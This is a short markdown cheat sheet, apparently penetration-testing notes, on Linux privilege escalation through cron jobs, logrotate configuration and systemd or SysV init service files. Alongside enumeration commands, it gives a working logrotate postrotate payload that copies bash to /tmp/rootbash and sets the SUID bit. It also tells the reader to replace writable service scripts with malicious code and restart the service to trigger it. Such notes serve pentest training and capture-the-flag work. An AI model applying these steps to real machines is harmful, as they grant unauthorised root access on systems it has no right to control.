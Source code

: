 ## Cron
**List All Cron Jobs**
```bash
cat /etc/crontab
ls -la /etc/cron.d/
ls -la /etc/cron.daily/
ls -la /etc/cron.hourly/
ls -la /etc/cron.weekly/
ls -la /etc/cron.monthly/
ls -la /var/spool/cron/crontabs/
```
- Check for writable directories with scripts / what the script is calling
## Logrotate-Based Escapes
```bash
ls -la /etc/logrotate.d/
cat /etc/logrotate.conf
```
If you can write to a file in `/etc/logrotate.d/`, add a `postrotate` script that creates a SUID binary:
```bash
/var/log/myapp/*.log {
    daily
    missingok
    rotate 7
    notifempty
    compress
    sharedscripts
    postrotate
        cp /bin/bash /tmp/rootbash
        chmod +s /tmp/rootbash
    endscript
}
```
## Systemd & SysV Init Scripts
**List Systemd Service Files**
```bash
ls -la /etc/systemd/system/*.service
ls -la /lib/systemd/system/*.service
```
**Inspect Service File Contents**
```bash
cat /etc/systemd/system/vulnerable.service
```
Look for fields like `ExecStart=/usr/bin/somescript.sh`. If `somescript.sh` is writable, replace it with malicious code.
Check for Writable `/etc/default` or `/etc/sysconfig` Files
Many SysV init scripts source configuration from `/etc/default/servicename` or `/etc/sysconfig/servicename`. If writable, you can modify the environment the service runs in or the path to the binary.
**Reload & Restart Service to Trigger Execution**
```bash
systemctl daemon-reload
systemctl restart vulnerable.service
```
